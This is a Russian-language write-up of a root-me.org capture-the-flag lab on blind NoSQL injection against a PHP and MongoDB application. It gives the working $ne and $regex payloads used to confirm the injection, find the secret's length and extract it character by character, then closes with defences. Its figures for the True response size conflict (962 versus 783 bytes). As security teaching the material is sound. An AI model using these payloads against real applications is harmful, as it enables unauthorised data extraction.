






## Lab: NoSQL Injection -- En aveugle (Blind NoSQL Injection)

**Платформа:** root-me.org
**Категория:** NoSQL Injection
**Сложность:** Medium
**Дата:** 2026-07-27

---

## TL;DR
Параметр `flag` уязвим к Blind NoSQL-инъекции через операторы MongoDB.
Благодаря особенностям обработки GET-параметров в PHP злоумышленник
может передавать MongoDB-операторы (`$ne`, `$regex`) через имя параметра
(`flag[$ne]`, `flag[$regex]`). После подтверждения существования
инъекции оператором `$ne` была определена длина секретного значения, а
затем методом **Boolean-Based** выполнено его побуквенное восстановление
по различию ответов сервера.

## Теория: NoSQL Injection через операторы MongoDB

Приложение ожидает, что параметр `flag` является обычной строкой, однако
PHP автоматически преобразует параметры с квадратными скобками в
массивы.

Например:

``` text
flag[$ne]=1
```

превращается в

``` php
$_GET = [
    "flag" => [
        "$ne" => "1"
    ]
];
```

Если этот массив без дополнительной проверки передается драйверу
MongoDB, запрос принимает вид:

``` javascript
db.flags.findOne({
    flag: { "$ne": "1" }
})
```

Здесь `$ne` --- оператор MongoDB **"не равно"**, поэтому условие
становится истинным практически для любого значения флага.

Аналогично работает оператор регулярных выражений:

``` text
flag[$regex]=^abc.*
```

После обработки PHP MongoDB получает:

``` javascript
{
    flag: {
        "$regex": "^abc.*"
    }
}
```

В результате база данных проверяет, начинается ли значение поля `flag` с
последовательности `abc`. Если условие истинно, приложение возвращает
один ответ, если ложно --- другой. Именно различие этих ответов
позволяет восстановить секрет посимвольно без его непосредственного
отображения.

**Главное отличие от SQL Injection:** здесь не происходит разрыва
SQL-запроса кавычками. Эксплуатация основана на **подмене типа данных**
--- вместо строки приложению передается объект с оператором MongoDB.

## Разведка

###  Анализ HTTP-запроса

Исследование началось с перехвата HTTP-запроса в Burp Suite.

В заголовках запроса была обнаружена cookie:

``` http
PHPSESSID=...
```

Это позволило сделать вывод, что серверная часть приложения реализована
на PHP.



## Эксплуатация

### Шаг 1 - Подтверждение NoSQL-инъекции

Для проверки использовался запрос:

``` http
GET /web-serveur/ch48/index.php?chall_name=nosqlblind&flag[$ne]=1
```

Сервер вернул сообщение:
```
    Yeah this is the flag for nosqlblind!
```

Успешный ответ подтвердил возможность передачи операторов MongoDB через
пользовательский ввод и наличие NoSQL-инъекции.




### Шаг 2 - Определение признаков True и False

Поскольку лабораторная работа относится к Blind NoSQL Injection,
дальнейшая эксплуатация строилась на различии ответов приложения.

**True**
```
    Yeah this is the flag for nosqlblind!
```
Размер ответа:
```
    962 байта
```
**False**
```
    This is not a valid flag for the nosqlblind challenge...
```
Размер ответа:
```
    981 байтa
```
Размер HTTP-ответа использовался как основной критерий фильтрации
результатов Burp Intruder.





### Шаг 3 - Определение длины флага

Перед извлечением символов была определена длина секретного значения.

Использовался запрос:

``` http
GET /web-serveur/ch48/index.php?chall_name=nosqlblind&flag[$regex]=^.{21}$
```

Регулярное выражение означает:

-   `^` --- начало строки;
-   `.` --- любой символ;
-   `{21}` --- ровно 21 символ;
-   `$` --- конец строки.

В Burp Intruder выполнялся перебор возможных длин. Единственным
значением, при котором сервер возвращал ответ True (783 байта),
оказалось число **21**.

Следовательно, длина флага составляет **21 символ**.




### Шаг 4 - Побуквенное извлечение флага

После определения длины началось последовательное восстановление каждого
символа.

Использовался запрос:

``` http
GET /web-serveur/ch48/index.php?chall_name=nosqlblind&flag[$regex]=^a.*
```

Если текущий символ совпадал с соответствующим символом флага, сервер
возвращал ответ True.

После нахождения символа регулярное выражение постепенно расширялось:

``` text
^R.*
^Ro.*
^Roo.*
...
```

Процесс повторялся до полного восстановления значения флага.





### Шаг 5 - Особенности поиска специальных символов

Во время восстановления были обнаружены специальные символы, имеющие
особое значение в регулярных выражениях MongoDB.

Для их проверки требовалось предварительное экранирование символом `\`.

Например:

``` text
.
*
+
?
(
)
[
]
{
}
\
^
$
|
```

Без экранирования регулярное выражение интерпретировалось некорректно,
что приводило к ложным результатам.



---

## Вывод / причина уязвимости

-   Приложение напрямую использовало пользовательский ввод при
    построении запроса MongoDB.
-   Отсутствовала проверка типа входных данных --- вместо строки PHP
    позволил передать вложенный массив.
-   MongoDB-драйвер интерпретировал вложенный массив как оператор
    запроса (`$ne`, `$regex`).
-   Различие текста и размера ответов позволило реализовать классическую
    Boolean-Based Blind NoSQL Injection и полностью восстановить
    секретное значение.

## Защита

``` php
$flag = (string)$_GET['flag'];

$result = $collection->findOne([
    'flag' => $flag
]);
```

Дополнительно:

-   выполнять явное приведение входных данных к ожидаемому типу;
-   отклонять любые вложенные массивы там, где ожидается строка;
-   удалять пользовательские ключи, начинающиеся с символа `$`;
-   использовать схемы валидации входных данных;
-   не различать ответы для истинных и ложных условий;
-   ограничивать частоту запросов (Rate Limiting), усложняя
    автоматизированный перебор символов.